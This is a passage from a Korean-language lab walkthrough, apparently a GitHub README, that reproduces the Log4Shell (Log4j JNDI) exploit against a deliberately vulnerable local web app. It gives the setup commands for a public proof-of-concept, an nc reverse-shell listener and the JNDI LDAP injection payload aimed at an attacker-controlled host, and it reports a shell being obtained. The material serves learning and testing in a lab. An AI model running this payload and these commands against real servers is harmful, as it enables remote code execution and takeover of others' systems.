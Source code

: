 ```localhost:8080으로 접속 가능```

### 웹사이트 화면
  ![image](https://user-images.githubusercontent.com/33647663/148889477-e306b678-5590-498e-894e-14f75e774661.png)

   
## 공격 환경 구성
### 공격자 정보
  > Kali Linux<br>
  > IP: 192.168.128.139<br>
  > LDAP Port : 1389 <br>
  > Web Port : 8000 (악성 java 클래스 파일 다운로드용 웹포트)<br>
  > nc Port : 9001 (리버스 쉘 연결용 포트) <br>

### 명령어

  ```md
  git clone https://github.com/kozmer/log4j-shell-poc
  cd log4j-shell-poc
  pip3 install -r requirements.txt
  ```

  **JDK 1.8 버전**을 다운받아서 해당 폴더에 위치 시키기. 단 이름은 꼭 JDK_1.8.0_20 이어야 합니다. JDK 1.8.0에서 다른 버전이어도 되는데 이름은 저렇게 바꿔줘야 합니다.

  ![image](https://user-images.githubusercontent.com/33647663/148897619-453bfd0d-f5a6-49eb-bfc6-b81bca3a6c51.png)



  ```md
  nc -nlvp 9001
  ```
  ```md
  python3 poc.py --userip [공격자ip] --webport 8000 --lport [nc 리스닝 포트]
  ```

  ![image](https://user-images.githubusercontent.com/33647663/148897923-2e582729-1aeb-438e-9912-b8b9991df339.png)

  이제 공격자가 취약한 웹서버에 다음 jndi ldap 쿼리를 인젝션 하여 공격을 수행합니다.

  ```md
  ${jndi:ldap://192.168.128.139:1389/a}
  ```

  위의 취약한 웹서버[Vulnerable App](#vulnerable-app)의 코드를 보면 userName을 그대로 로깅하고 있으므로 username 부분에 인젝션을 합니다.

  ![image](https://user-images.githubusercontent.com/33647663/148898932-f3d7fa26-382d-4df3-8973-71664ba68cb7.png)

  공격자 화면을 보면 다음과 같이 쉘을 획득한 것을 볼 수 있습니다.
  ![image](https://user-images.githubusercontent.com/33647663/148899265-0c8dd0e8-9050-4f61-b3ec-32e60c9196e0.png)

  1. 취약한 웹서버로 부터 LDAP 쿼리가 와서 Exploit.class 파일의 경로를 반환했다는 내용이며
  2. nc로 리스닝 하고 있던 포트에서 쉘이 연결 된 모습입니다.
  
  ### Flow Chart
  다음 그래프는 전체 Flow 입니다.
  ![image](https://user-images.githubusercontent.com/33647663/148907154-db16d32b-c851-46d3-ae2d-177ac9087d95.png)
